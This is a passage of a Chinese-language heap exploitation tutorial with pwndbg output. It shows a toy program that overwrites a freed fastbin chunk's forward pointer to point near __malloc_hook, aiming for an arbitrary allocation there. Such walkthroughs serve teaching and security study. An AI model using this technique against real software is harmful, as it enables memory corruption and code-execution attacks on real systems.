 ```c
   0x400580 <main+26>    mov    rdi, rax
   0x400583 <main+29>    call   free@plt <free@plt>
 
 ► 0x400588 <main+34>    mov    rax, qword ptr [rbp - 8]
   0x40058c <main+38>    movabs rdx, _IO_wide_data_0+301 <0x7ffff7dd1aed>
   0x400596 <main+48>    mov    qword ptr [rax], rdx
   0x400599 <main+51>    mov    edi, 0x60
   0x40059e <main+56>    call   malloc@plt <malloc@plt>
 
   0x4005a3 <main+61>    mov    edi, 0x60
───────────────────────────────────────────────────────────────────[ SOURCE (CODE) ]───────────────────────────────────────────────────────────────────
In file: /home/ubuntu/Desktop/arbitrary_alloc.c
    5 
    6     chunk1=malloc(0x60);
    7 
    8     free(chunk1);
    9 
 ► 10     *(long long *)chunk1=0x7ffff7dd1af5-0x8;
   11     malloc(0x60);
   12     chunk_a=malloc(0x60);
   13     return 0;
   14 }
───────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────
00:0000│ rsp  0x7fffffffddb0 —▸ 0x7fffffffdea0 ◂— 0x1
01:0008│      0x7fffffffddb8 —▸ 0x602010 ◂— 0x0
02:0010│ rbp  0x7fffffffddc0 —▸ 0x4005c0 (__libc_csu_init) ◂— push   r15
03:0018│      0x7fffffffddc8 —▸ 0x7ffff7a2d840 (__libc_start_main+240) ◂— mov    edi, eax
04:0020│      0x7fffffffddd0 ◂— 0x1
05:0028│      0x7fffffffddd8 —▸ 0x7fffffffdea8 —▸ 0x7fffffffe236 ◂— '/home/ubuntu/Desktop/arbitrary_alloc_elf'
06:0030│      0x7fffffffdde0 ◂— 0x1f7ffcca0
07:0038│      0x7fffffffdde8 —▸ 0x400566 (main) ◂— push   rbp
─────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────
 ► f 0           400588 main+34
   f 1     7ffff7a2d840 __libc_start_main+240
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```

此时的fastbin已经回收堆内存：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604401326177-ba8ec5fe-bd41-401a-a3f2-b5c05695fa96.png)![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604401378013-8cca1e36-d629-4966-8e43-ed1aff1e2ace.png)

在说明下一行代码之前，先来说说代码错位这个情况。由于这个程序的本意是控制__malloc_hook，所以我们先找到它的地址，如下图所示：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1604401556355-9f85e370-3725-4ca7-b2f9-4440cccdd899.png)

要控制__malloc_hook地址，就要先找到合法的size域，在地址0x7ffff7dd1b10开始向前寻找：
